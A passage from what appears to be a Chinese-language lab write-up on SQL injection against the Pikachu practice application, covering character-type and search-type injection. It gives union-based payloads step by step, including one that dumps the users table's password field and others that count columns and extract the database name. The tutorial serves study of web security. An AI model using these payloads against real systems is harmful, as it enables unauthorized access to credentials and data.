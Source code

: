 8.爆user表中的password字段`-1' union select (select group_concat(password) from pikachu.users),2#`

![QQ图片20200305113649.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305113649.png)

### 四、搜索型注入

>**查看Pikachu的后台源码，发现搜索型注入和字符型注入的差别在于输入参数的闭合方式，字符型为`'name'`,搜索型为`'%name%'`,不过在注入过程中发现其payload构造方式与字符型相同，因为在构造时加入`1'`闭合前面的单引号之后，引号内部的 % 也被闭合掉了，所以不会产生影响。**

1.输入`1'`报错，输入`1'#`返回正常

![vkdlsbvbsldvbls](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/vkdlsbvbsldvbls)

![akjvavajvnjanvdad](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/akjvavajvnjanvdad)

2.用 order by 判断列数`1' order by 4#`

![ajvbsvdbbskvjk](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/ajvbsvdbbskvjk)

3.union看回显`-1' union select 1,2,3#`

![sdkjvnskjnvkjsdvkj](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/sdkjvnskjnvkjsdvkj)

4.爆库名`-1' union select 1,database(),3#`
